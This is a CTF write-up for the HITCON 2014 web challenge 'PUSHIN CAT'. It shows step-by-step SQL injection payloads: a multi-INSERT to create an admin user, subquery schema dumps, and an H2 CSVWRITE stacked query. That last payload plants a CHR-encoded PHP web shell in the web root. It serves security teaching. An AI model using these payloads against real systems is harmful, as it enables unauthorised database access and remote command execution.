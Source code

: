 # HITCON CTF 2014: PUSHIN CAT

**Category:** Web
**Points:** 350
**Description:**

> http://203.66.14.60/

**Hint:**

> The flag is file based. Try to get shell :P

## Write-up

Basically PUSHIN CAT offers only three functionalities: login, registration and the deceptive [“Get flag”](http://203.66.14.60/flag.html). The last one tells us “You are not admin from `X`”, where `X` is our IP address.

The displayed IP address quickly leads down a wrong route because trying to forge a local IP address (e.g. 127.0.0.1) with HTTP headers does not work. However, the registration page seems to be vulnerable to a very basic SQL injection vulnerability, as it responds with a “Query Error” to a single quote in the password field (the detail of the error message seems to have increased since we solved the challenge, so now you even get the surrounding query). Even without seeing the query, one can easily guess that it must be an `INSERT` into the database. After fiddling around with the injection, the format of the SQL query seems to be this one:

```sql
INSERT INTO [something...] VALUES ([some fields], 'INJECTION IN PW', 'IP')
```

This is great news, since the IP value is shown to us when clicking the “Get flag” button. We can further try to obtain the amount of parameters in the query with a multi-INSERT technique: `foo','IP'),(1,2)-- -`. This will insert 2 records into the database. We can continously increase the amount of parameters in the second query until there is no error anymore. This is the case with 4 parameters: `foo','IP'),(1,2,3,4)-- -`.

In order to dump the database schema and content, we can make use of subqueries: The injection syntax is `foo',(select 1))-- -`, where 1 could be any query returning only one row. Additionally, we can use `group_concat` to group multiple rows together and read out `information_schema.tables` and `information_schema.columns`. From there on we can easily see that the original query roughly looks like this:

```sql
INSERT INTO users (role, username, password, ip) VALUES ('user', $username, $pw (INJECTION HERE), $ip)
```

Using this knowledge, we can build a multi-INSERT injection to create a user with the role “admin”. Logging in with that user and clicking “Get flag” only yields the message “Give shell plz” (IIRC). Another dead end.

A test confirms another interesting property: Multiple SQL statements are allowed in the injection (which is only the case with very few database drivers), so we can use `;` to add other kinds of queries. But let's first re-check the database engine to know our possibilities: The injection `foo',(select version()))-- -` yields `PostgreSQL 8.1.4  server protocol using H2 1.4.178 (2014-05-02)`. Okay, so… Postgres? However, what is this H2 thingy? As it turns out it is the underlying database engine. In order to exploit the server, we can make use of [all functions](http://www.h2database.com/html/functions.html) this database engine exposes. One of them, called `CSVWRITE`, seems to be particularly useful to drop files in the web root. The injection would look like this:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT 1')-- -
```

As can be seen from the syntax, the second parameter to `CSVWRITE` is a query. This example would write a file called `shell.php` in the web root (we guessed that but could also easily check the Apache configuration with file reading functions). However, the file would only contain a `1`. In order to avoid escaping our own quotes, we can use the `CHR(decimal)` function and the concatenation operator. Here is the resulting injection, using all the tricks:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT CHR(60)||CHR(63)||CHR(112)||CHR(104)||CHR(112)||CHR(32)||CHR(115)||CHR(121)||CHR(115)||CHR(116)||CHR(101)||CHR(109)||CHR(40)||CHR(36)||CHR(95)||CHR(71)||CHR(69)||CHR(84)||CHR(91)||CHR(48)||CHR(93)||CHR(41)||CHR(59)||CHR(32)||CHR(63)||CHR(62)')-- -
```

In conclusion, a lot of the difficulity of this challenge came from the multiple dead ends and small steps involved. We certainly tried a billion other attacks before finding this exact route to exploit the web application, but we had a lot of fun while doing it ;-)

## Other write-ups and resources

* https://rzhou.org/~ricky/hitcon2014/pushin_cat/
